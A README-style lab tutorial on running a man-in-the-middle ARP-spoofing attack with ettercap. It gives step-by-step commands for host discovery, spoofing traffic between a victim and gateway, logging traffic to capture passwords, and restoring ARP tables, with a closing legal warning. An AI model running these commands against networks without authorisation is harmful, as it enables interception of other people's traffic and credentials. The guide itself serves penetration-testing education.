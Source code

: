 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.

---
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```

---
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Gateway (router) → GATEWAY_IP

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```

##Example:
```bash
sudo ettercap -T -M arp:remote //192.168.0.105/ /192.168.0.1// -i eth0
```
---
## :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use

---
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP// /GATEWAY_IP// -i INTERFACE
```
##Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```

---
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```
---

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.

---

##📌 Author

Created by:Nahid Chowdury- CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice


